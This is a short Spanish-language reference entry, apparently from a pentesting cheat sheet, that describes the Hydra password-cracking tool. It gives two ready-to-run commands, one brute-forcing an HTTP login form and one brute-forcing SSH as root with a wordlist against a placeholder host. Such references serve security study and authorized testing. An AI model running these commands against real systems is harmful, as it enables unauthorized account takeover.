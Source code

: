 ### Hydra
**Descripción:** Hydra es una herramienta para realizar ataques de fuerza bruta en servicios de autenticación.

**Ejemplos:**
```bash
# Ataque de fuerza bruta en un formulario HTTP
hydra -l admin -P /path/to/wordlist.txt target.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

# Ataque contra SSH
hydra -l root -P /path/to/wordlist.txt ssh://target.com
```
